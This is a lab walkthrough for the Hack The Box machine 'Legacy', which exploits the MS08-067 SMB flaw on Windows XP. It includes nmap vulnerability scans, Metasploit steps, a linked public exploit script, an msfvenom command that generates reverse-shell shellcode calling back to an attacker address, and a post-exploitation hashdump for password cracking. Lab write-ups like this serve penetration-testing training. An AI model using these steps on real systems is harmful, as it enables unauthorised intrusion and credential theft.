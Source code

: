 # Legacy

## Overview

Legacy is a pretty straightforward machine which exploits SMB on Windows. This machine showcases CVE-2008-4250 / ms08\_067.

1. [https://nvd.nist.gov/vuln/detail/cve-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250)
2. [https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250)
3. [https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15)

## Enumeration

### Nmap

```bash
sudo nmap -Pn -sV -sC 10.129.1.111 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:41 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ec:a3 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-03-28T19:39:25+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.34 seconds
```

From the Nmap scan, we see that SMB is open and the OS is Windows XP



A handy command that we can run for SMB vulnerability identification is the following:

```bash
sudo nmap --script smb-vuln* -p 445 10.129.1.111
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:49 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.45 seconds
```

The above command shows this machine is vulnerable to 2 SMB vulnerabilities.

## Exploitation with Metasploit

Using the Metasploit module `exploit/windows/smb/ms08_067_netapi`, we'll set up our payload as such:

![](<../../../.gitbook/assets/image (49) (2) (1).png>)

![](<../../../.gitbook/assets/image (69).png>)

{% hint style="info" %}
To set options (e.g. RHOSTS), enter "set RHOST \[target IP]"
{% endhint %}

With this information entered, we can now run the exploit with `run` or `exploit`

![](<../../../.gitbook/assets/image (43) (1) (1).png>)

As shown in the image above, running getuid returns us NT AUTHORITY\SYSTEM which means no privilege escalation is needed as we have the highest privileges on the current system.

## Exploitation without Metasploit

The exploit I used can be found here:

{% embed url="https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py" %}

The script explains how to achieve your goal with showing where to make modifications and what commands to run

First I run the msfvenom command mentioned in the code.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

![](<../../../.gitbook/assets/image (57).png>)

Then replace the shellcode in the code with the shellcode we just generated.

Running an nmap scan on the target once more with -O (OS Detection) reveals that the target is running Microsoft Windows XP SP3 (94%). With this is mind, we'll trying using this sample command

![](<../../../.gitbook/assets/image (67) (1).png>)

Let's set up a netcat listener and then run the command and you should get a reverse shell.

I've followed these articles, but had no success.

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010" %}

{% embed url="https://blog.nullprism.io/posts/htb-legacy" %}

## Post Exploitation

One thing we can do with the meterpreter shell is run a hashdump on the target

![](<../../../.gitbook/assets/image (48).png>)

We can then take these hashes and crack them with JohnTheRipper or Hashcat
